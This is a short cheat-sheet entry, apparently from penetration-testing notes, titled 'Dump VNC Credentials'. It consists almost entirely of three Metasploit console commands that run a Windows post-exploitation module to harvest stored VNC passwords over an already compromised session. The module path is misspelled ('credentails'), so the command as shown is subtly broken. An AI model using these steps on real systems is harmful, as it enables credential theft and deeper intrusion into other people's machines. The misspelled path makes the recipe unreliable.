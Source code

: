 # Dump VNC Credentials
You need to have an authenticated VNC session within Metasploit
```
MSF > use post/windows/gather/credentails/vnc 
MSF > set session [number] 
MSF > exploit
```
